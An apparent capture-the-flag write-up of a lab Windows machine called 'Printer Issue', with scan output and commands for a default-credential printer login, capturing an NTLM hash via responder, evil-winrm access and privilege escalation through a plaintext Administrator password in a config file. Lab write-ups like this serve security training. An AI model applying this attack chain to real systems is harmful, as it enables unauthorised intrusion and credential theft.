

# Printer Issue

## Enumeration

Performed Nmap scan and able to identify 4 open ports&#x20;

```
Command:- rustscan -a 10.1.177.238 -- -A -oN scan.txt

80/tcp   open  http          syn-ack ttl 126 Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Smarter Support
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D84666B7F0C1CEF1E20892E33308C913
3389/tcp open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-0MTGMLVOBBO
|   NetBIOS_Domain_Name: WIN-0MTGMLVOBBO
|   NetBIOS_Computer_Name: WIN-0MTGMLVOBBO
|   DNS_Domain_Name: WIN-0MTGMLVOBBO
|   DNS_Computer_Name: WIN-0MTGMLVOBBO
|   Product_Version: 10.0.20348
|_  System_Time: 2026-10-17T15:57:09+00:00
|_ssl-date: 2026-10-17T15:57:13+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-0MTGMLVOBBO
| Issuer: commonName=WIN-0MTGMLVOBBO
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T15:08:41
| Not valid after:  2027-04-13T15:08:41
| MD5:     c126 620d 298f c939 5b69 0fc6 f567 2290
| SHA-1:   ba88 dd81 6033 d9eb 6fed 6601 1084 5f70 e2c0 f8de
| SHA-256: ac1c a417 096f ba25 bc62 3528 0011 d64a 0a4c 0623 2fd6 b0e0 5321 2267 2c30 8281
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQZQudn58DUqFNhLzkiBs0iDANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tME1UR01MVk9CQk8wHhcNMjYxMDEyMTUwODQxWhcNMjcw
| NDEzMTUwODQxWjAaMRgwFgYDVQQDEw9XSU4tME1UR01MVk9CQk8wggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQCdEcgwB8TCX/jxxC8En/hfiIstuc8s3hX6
| P7eukHDbv4RNv/JAlXpTmlEc7uE1nZbesd/9/IKTR0vXnxqtWenc3fswBVXWAF6Q
| puU5IzUURqCwEfG3ozVi/R2gb/gNzR9YoMpom3OU8XR7ekzrNK/DtSoeCpAAtW/B
| GsId0+tYMt3WM1KgobHjpRDnIKHuGILgVmyH9g5kL42GUEgujFXNM8Ture9e25ul
| NTcyzo3WDAS4SULQVt0yAL7gV53OA3DIHyC02IaAgS5lD68OwnBRmgKkc4h+qWDG
| SIyX9tr6EU/YwHvBMRiUZckCglaX1VS/Mx3gUKQVAO6T8E/eUrjFAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAasg+5nPfUpG6qUgw0xXGnoYy8ZnYrZ7uqHcg26uG4iwXKcb8N+olQbl+
| Keef6zvnABph3XidqX7ecGAaEM8iRUu/x9+3M3070p8uYVT7aoGeyHoRUsUI0Izj
| +oy2OmX8SyU5M/BjLQKTXhM3oysEZYxD+6OvEyLMyLqXg+P08LB30jm6O7HnlqK9
| yJcwxPopbLsIYVlbeh4AUAS7DZ8PvPwXknXLSaGR3+bV41r20KQ/pEmjVA99hads
| tuIsdeLFsTT4BQZpvXV7Vt8idimM+M+um92W2uWuiEv9BzvIAmamQucjRJcKcYJ7
| uPeYL3rAdMlwq0b0c9r3mQwgFHL6kg==
|_-----END CERTIFICATE-----
5985/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could no


```

<figure><figcaption></figcaption></figure>

### Port 80 - HTTP (Support center osticket)

<figure><figcaption></figcaption></figure>


### Port 5000 -HTTP (Printer configuration Portal)

Default credential admin:admin worked able to gain access as admin

```
Username - admin
Password - admin
```

<figure><figcaption></figcaption></figure>


In the Main dashboard, able to see configuration tab, where we can provide a ip address for printer host, by leveraging this misconfiguration, able to steal the hash of the user printer\_support

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
Command:- responder -I tun0 -v 
```

Start responder before clicking test connection&#x20;

<figure><figcaption></figcaption></figure>

Cracked the password for user printer\_support&#x20;

<figure><figcaption></figcaption></figure>

Used the credentials on Port 80 and gained access on web directory /scp/login.php, and found another user credentials - Ivan

<figure><figcaption></figcaption></figure>

Credentials are valid and gained initial access on port 5985 as user Ivan&#x20;

<figure><figcaption></figcaption></figure>

```
Command:- evil-winrm -i 10.1.177.238 -u ivan.morales -p 'Redacted'  
```

### Privilege Escalation&#x20;

With a secure foothold on the system, local post-exploitation enumeration was conducted to find a path to system administrator.

While auditing the filesystem, a non-standard folder structure was noticed within the hidden `C:\ProgramData` directory.

1. Navigated to an unusual directory named `Customhealthcheck`.
2. Located a file titled `config.xml`.
3. Reading the contents of the configuration file exposed an exposed, unencrypted password configuration string belonging directly to the local Administrator account.

```
Command:- type C:\ProgramData\Customhealthcheck\config.xml
```

<figure><figcaption></figcaption></figure>

Verified the credentials for user administrator and they are valid&#x20;

```
evil-winrm -i 10.1.177.238 -u administrator -p 'Redacted'
```

<figure><figcaption></figcaption></figure>

```
Command:- type C:\Users\Administrator\Desktop\root.txt
```

<figure><figcaption></figcaption></figure>


<br>


&#x20;


<br>


